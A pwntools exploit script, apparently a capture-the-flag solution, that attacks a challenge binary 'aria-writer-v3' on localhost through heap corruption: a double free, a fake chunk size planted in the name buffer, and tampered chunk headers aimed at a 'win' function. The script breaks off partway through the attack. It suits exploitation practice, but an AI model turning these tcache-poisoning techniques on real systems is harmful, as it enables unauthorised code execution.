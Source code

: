 ## Code

```python
from pwn import process, remote, p64, u64, ELF


def _select(s, sel, c=b"Gimme int pls > "):
    s.recvuntil(c)
    s.sendline(sel)


def get_name(s):
    junk = b"! rob needs your help composing an aria "
    r = s.recvuntil(junk)
    return r[:-len(junk)]


def write(s, l, data=b"junk"):
    _select(s, b"1")
    s.recvuntil(b"Gimme int pls > ")
    s.sendline(str(l).encode())
    s.recvuntil(b"what should i write tho > ")
    s.send(data)


def delete(s):
    _select(s, b"2")
    s.recvline()


if __name__ == '__main__':
    target = "localhost"
    port = 2468
    # s = process("./aria-writer-v3")
    s = remote(target, port)

    elf = ELF("./aria-writer-v3")
    win = elf.symbols["win"]
    curr = elf.symbols["curr"]
    name_addr = curr + 8
    large_chunk = curr + 16
    libc = ELF("./libc-2.27.so")
    arena_libc = 0x3ebc40
    print(hex(name_addr))

    name = p64(0x501)
    s.sendline(name)
    s.recvline()

    # tamper size of next chunk
    print(get_name(s))
    size = 0x20
    write(s, size)
    delete(s)
    delete(s)
    write(s, size, p64(curr + 0x500))
    write(s, size)
    write(s, size, p64(0) + p64(0x21))

    # tamper size of next next chunk
    print(get_name(s))
    size = 0x30
    write(s, size)
```